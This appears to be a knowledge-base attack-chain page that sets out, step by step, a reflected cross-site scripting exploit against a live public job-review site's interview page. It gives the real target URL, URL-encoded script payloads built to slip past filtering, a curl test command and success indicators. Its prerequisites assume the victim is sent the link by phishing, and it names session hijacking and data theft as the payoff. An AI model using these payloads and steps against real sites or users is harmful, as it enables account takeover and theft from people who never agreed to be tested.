

# Reflected XSS via filter.jobTitleExact Parameter on Glassdoor Interview Page

Multi-stage attack chain demonstrating a complete reflected XSS exploitation workflow on Glassdoor's interview questions page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome or Firefox)
- Optional: [[tools/curl]] for automated testing

### Target Environment

- Web platform
- Access to public-facing Glassdoor interview page
- No authentication required

### Initial Access Requirements

- Internet access
- Victim must click a malicious link (e.g., via phishing)
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Navigate to Target Interview Page
procedure: [[procedures/Exploit-Reflected-XSS-via-URL-Parameter]]

**Objective**: Access the vulnerable interview questions page to prepare for payload injection.

**Instructions**: Open a web browser and navigate to the base URL of the Glassdoor interview page. Use the following URL as the starting point:

```bash
https://www.glassdoor.co.in/Interview/BlackRock-Interview-Questions-E9331.htm?filter.jobTitleExact=Portfolio+Management+Group-Fixed+Income+Analyst&countryRedirect=true
```

**Expected Output**: The page loads displaying interview questions for BlackRock, with the filter parameter visible in the URL.

**Success Indicators**:
- Page loads without errors
- URL bar shows the filter.jobTitleExact parameter

### Step 2: Inject XSS Payload into Parameter
procedure: [[procedures/Exploit-Reflected-XSS-via-URL-Parameter]]

**Objective**: Modify the URL parameter to include a URL-encoded JavaScript payload that will be reflected and executed.

**Instructions**: Edit the URL by replacing the value of filter.jobTitleExact with a URL-encoded XSS payload. Primary payload: `%3c%3cs%3escript%3ealert%601%60%3c%3cs%3e/script%3e`. Full modified URL:

```bash
https://www.glassdoor.co.in/Interview/BlackRock-Interview-Questions-E9331.htm?filter.jobTitleExact=%3c%3cs%3escript%3ealert%601%60%3c%3cs%3e/script%3e&countryRedirect=true
```

Alternative payload for testing: `%22%3cimg%20onerro%3d%3e%3cimg%20src%3dx%20onerror%3dalert%601%60%3e`. To test via command line, use [[commands/curl-xss-payload]]:

```bash
curl "https://www.glassdoor.co.in/Interview/BlackRock-Interview-Questions-E9331.htm?filter.jobTitleExact=%3c%3cs%3escript%3ealert%601%60%3c%3cs%3e/script%3e&countryRedirect=true" -v
```

**Expected Output**: The server responds with the page HTML containing the unsanitized reflected payload.

**Success Indicators**:
- Payload appears in the page source without escaping
- No server-side blocking or sanitization errors

### Step 3: Observe Payload Execution
procedure: [[procedures/Exploit-Reflected-XSS-via-URL-Parameter]]

**Objective**: Load the modified URL in a browser to trigger JavaScript execution and verify the vulnerability.

**Instructions**: Paste the modified URL into the browser address bar and press Enter. The payload should execute immediately upon page load.

**Expected Output**: A JavaScript alert popup displays (e.g., alert(1)), confirming execution.

**Success Indicators**:
- Alert box pops up in the browser
- Inspect page source to confirm reflection: search for `<s>script>alert(1)</s>/script>`
- Tested successfully on Chrome and Firefox

## Attack Chain Summary

### Key Achievements

1. Successful navigation to the vulnerable page without authentication.
2. Injection and reflection of arbitrary JavaScript via URL parameter.
3. Execution of payload leading to potential data theft or session hijacking.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
